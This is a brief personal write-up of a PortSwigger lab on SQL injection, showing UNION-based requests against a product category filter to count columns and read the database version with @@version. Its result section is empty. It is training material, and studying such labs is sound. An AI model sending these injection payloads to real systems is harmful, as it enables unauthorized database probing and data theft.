

# Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft
url: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft

# Overview:
- Vulnerability in product category filter
- Display database version string to solve lab

# Analysis:
try:
GET /filter?category=Lifestyle'+UNION+SELECT+NULL,NULL# HTTP/2 to get the actual number of columns

Microsoft and MySQL cheatsheet:
- @@version

try:
GET /filter?category=Lifestyle'+UNION+SELECT+@@version,NULL# HTTP/2

-> Result:
